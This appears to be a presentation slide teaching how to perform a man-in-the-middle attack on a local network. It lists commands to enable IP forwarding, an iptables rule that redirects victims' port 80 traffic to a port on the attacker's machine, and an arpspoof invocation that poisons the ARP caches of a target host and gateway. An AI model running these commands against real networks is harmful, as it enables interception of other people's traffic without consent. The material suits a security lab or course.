

# Perform Mitm
IP forwarding (it’s required to redirect traffic to attacker pc):
Sudo nano/proc/sys/net/ipv4/ip_forward (set 1)
sysctl -p (reconfigure kernel – let changes take effect now)

IPtables NAT
Request coming on port 80 will be redirected to user define port number . with the iptable nat rule the victim PC will get internet through attacker PC.

iptables -t nat -A PREROUTING -p tcp –destination-port 80 -j REDIRECT –to-port 8880

ARP spoofing attack
Syntax : arpspoof -i interface -t target-ip target-gateway-ip

arpspoof -i eth0 -t 10.0.2.9 -r 10.0.2.1